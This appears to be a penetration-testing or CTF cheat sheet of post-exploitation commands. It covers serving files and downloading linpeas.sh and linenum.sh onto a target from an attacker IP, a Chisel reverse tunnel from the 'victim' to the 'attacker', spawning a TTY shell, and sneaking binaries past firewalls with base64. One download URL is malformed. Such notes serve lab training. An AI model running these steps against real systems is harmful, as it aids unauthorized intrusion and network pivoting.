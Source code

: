 # General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

If the remote server does not have `wget`, we can use `cURL`. : `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

### SCP

Copy file from local to a remote computer:

```bash
scp file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
# -P to set the ssh port in necessary case
```

Copy file from remote directory to local computer

```bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```

### Chisel

Example for postgresql (port 5432). First we need to transfer chisel.

On the attacker's machine:

```
chisel server --port 9002 --reverse
```

On the victim's machine:

```
./chisel client -v 10.10.16.81:9002 R:5432:172.22.0.1:5432
```

And now on the atacker's machine we have the ports 5432 connected. The usage wil be on another tab: `psql -h 10.10.16.81 -U "postgres" -p 5432`

``

#### Spawn a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Tmux

```
sudo apt install tmux -y
```

* [https://tmuxcheatsheet.com/](https://tmuxcheatsheet.com/)
* [Introduction to termux Ippsec](https://www.youtube.com/watch?v=Lqehvpe\_djs)

### Vim

[https://vimsheet.com/](https://vimsheet.com/)

### base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```bash
base64 binarytotransfer -w 0
#On the local machine
```

```
echo f0VMR... <SNIP> ...lIuy9i | base64 -d > binarytotransfer
#On the remote machine
```

### md5sum

To ensure the integrity of the transfered file.

```
md5sum transferedfile
```
